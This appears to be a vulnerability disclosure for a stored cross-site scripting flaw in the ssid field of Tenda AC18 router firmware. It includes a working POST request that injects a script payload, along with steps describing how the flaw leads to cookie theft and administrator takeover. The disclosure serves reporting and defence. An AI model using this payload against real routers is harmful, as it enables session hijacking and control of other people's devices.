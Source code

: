 # Information

**Vendor of the products:**    Tenda

**Vendor's website:**    https://www.tenda.com.cn/material/show/2610

**Reported by:**    YanKang、ChenZhijin、WeiKanghong

**Affected products:**	Tenda AC18 router

**Affected firmware version:**	V15.03.05.05_multi

**Firmware download address:** 	https://www.tenda.com.cn/material/show/2610

# Overview

A stored cross-site scripting (XSS) vulnerability was discovered in `Tenda AC18 routers（V15.03.05.05_multi）`. The vulnerability exists in the `ssid` parameter of the `wireless settings`. Remote attackers can inject malicious payloads that execute when any user visits the router's homepage, leading to session hijacking and potential complete compromise of the router.

# Exp

The exploitation process begins when an attacker, after obtaining valid credentials and authenticating via `/login.html`, submits a crafted POST request to the `/goform/WifiBasicSet` endpoint to inject a malicious JavaScript payload into the `ssid` parameter. This payload is then permanently stored in the router's  configuration without proper sanitization and persists across reboots.  Subsequently, when any authenticated user, including administrators,  visits the main dashboard at `/main.html`, the  stored script automatically executes within their browser session,  enabling session hijacking, authentication token theft, and potential  full administrative control of the router.

```
POST /goform/WifiBasicSet HTTP/1.1
Host: 192.168.2.1
Content-Length: 207
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Origin: http://192.168.2.1
Referer: http://192.168.2.1/wireless_ssid.html
Accept-Encoding: gzip, deflate, br
Cookie: password=25d55ad283aa400af464c76d713c07adrmn1qw; bLanguage=cn
Connection: keep-alive

wrlEn=1&wrlEn_5g=1&security=wpawpa2psk&security_5g=wpawpa2psk&ssid=Tenda_FD3AA0<script>alert('XSS_Test')</script>&ssid_5g=Tenda_FD3AA0_5G&hideSsid=0&hideSsid_5g=0&wrlPwd=12345678&wrlPwd_5g=12345678
```

# Attack Demo

The complete attack flow involves the following steps:

1.**Initial Access:** An attacker first obtains valid credentials and authenticates to the router's web interface via the `/login.html` page.

![image-20251015205257561](images/image-20251015205257561.png)

2.**Payload Injection:** The attacker submits a specially crafted POST request to the `/goform/WifiBasicSet` endpoint, injecting a malicious JavaScript payload into the `ssid` parameter.

![image-20251015205422198](images/image-20251015205422198.png)

3.**Trigger Condition:** The vulnerability is triggered when any authenticated user (including administrators) simply visits the main dashboard page at `/main.html`.

![image-20251015205218013](images/image-20251015205218013.png)



# Supplement

The attacker can use the `storage type XSS attack` to obtain the `cookie` of the user who just logged in through `/login.html`. Then, he can forge cookies to perform operations that can only be performed by administrators, causing serious consequences.
